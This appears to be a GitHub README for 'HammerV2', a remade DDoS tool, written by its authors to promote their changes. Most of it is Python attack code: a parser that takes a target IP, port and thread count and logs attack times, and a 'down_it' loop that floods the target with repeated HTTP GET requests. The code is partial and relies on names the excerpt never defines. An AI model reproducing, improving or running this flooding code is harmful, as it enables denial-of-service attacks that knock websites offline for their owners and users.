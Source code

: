 # HammerV2
- HammerV2 is some DDoS tool that has been remaked by iFanpS & NumeX

Me & NumeX remake this DDoS tool because the old version has been malfunction or cannot be use.

Me implement some code in here like new argument and on attack line.

# New Argument
I am adding new argument (-l | logs) logs method is used for know when are u ddosing.

I will add new argument soon like can automatically make logs when the site u ddos is Down.
```Python
def get_parameters():
    global host
    global port
    global thr
    global item
    times = time.ctime(time.time()).split()
    optp = OptionParser(add_help_option=False,epilog="Hammers")
    optp.add_option("-l","--logs",dest="logs",help="save attack logs -l yes")
    optp.add_option("-s","--server", dest="host",help="attack to server ip -s ip")
    optp.add_option("-p","--port",type="int",dest="port",help="-p 80 default 80")
    optp.add_option("-t","--thread",type="int",dest="turbo",help="default 1000 thread")
    optp.add_option("-h","--help",dest="help",action='store_true',help="help you")
    opts, args = optp.parse_args()
    if opts.help:
        usage()
    if opts.host is not None:
        host = opts.host
    else:
        usage()
    if opts.port is None:
        port = 80
    else:
        port = opts.port
    if opts.logs == 'yes':
        with open('logs_hammerv2.txt','a') as lg:
            lg.write(f"{host}:{port} is attacked on Day : {times[0]}, Month : {times[1]}:{times[2]}, Time : {times[3]}, Year : {times[4]}\n")
            lg.close()
    else:
        pass
    if opts.turbo is None:
        thr = 1000
    else:
        thr = opts.turbo
```

# Attack Method
The old hammer attack method u can find on github.

But here i remake the attack method to fast attack.
```Python
def down_it():
    try:
        data = """Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-us,en;q=0.5
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Connection: keep-alive"""
        while True:
            packet = str("GET / HTTP/1.1\nHost: "+host+"\n\n User-Agent: "+random.choice(uagent)+"\n"+data).encode('utf-8')
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((prox[0],int(prox[1])))
            if s.sendto( packet, (host, int(port))):
                s.shutdown(1)
                print ("\033[94m <--packet sent to {0}:{1}! hammering--> \033[0m".format(host, int(port)))
            else:
                s.shutdown(1)
                print("\033[91m shut<->down\033[0m")
            time.sleep(.1)
    except socket.error as e:
        print("\033[91m Socket error, Error {0}\033[0m".format(e))
        time.sleep(2)
    except KeyboardInterrupt:
        exit()
```

# Credit
- NumexX & iFanpS
